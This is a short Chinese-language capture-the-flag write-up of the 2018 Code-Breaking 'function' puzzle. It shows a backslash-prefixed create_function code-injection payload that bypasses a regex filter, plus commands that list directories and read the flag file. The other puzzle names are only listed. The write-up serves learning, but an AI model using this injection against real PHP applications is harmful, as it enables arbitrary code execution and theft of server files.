

code-breaking

2018
function
puzzle代码
1 |
|
使用正则进行了过滤，action中不能出现小写字母，数字，下划线
然后去查资料的时候，知道p牛提到过
1 | code-breaking puzzles第一题，function，为什么函数前面可以加一个%5c? |
在前面加一个\就行了，但是老实说，这块主要原理还是不清晰，这样子能过所有正则检测吗，还得找时间测试，学习一下
过了这块后，后面的$action(‘’, $arg);大致就是需要用传递进来的action作为函数明，执行一个可以传递两个参数的函数，然后这里也是学别人的，create_function
这个函数的使用：
1 | create_function('$a,$b','return 111') |
这样子只是调用create_function创建了一个函数，创建的函数并没有执行，
由于第二个参数可控，所以可以注入
1 | create_function('$a,$b','return 111;}phpinfo();//') |
payload:?action=\CREATE_FUNCTION&arg=return 2333;}phpinfo();//

后面看flag的方法也是学到了需多
有
print_r(scandir(‘../‘))
print_r(file_get_contents(‘../flag_h0w2execute_arb1trary_c0de’))
var_dump(glob(‘./../*’))
var_dump(file_get_contents(‘./../flag_h0w2execute_arb1trary_c0de’));
javacon
lumenserial
nodechr
pcrewaf
phplimit
phpmagic
picklecode
thejs
2020
评论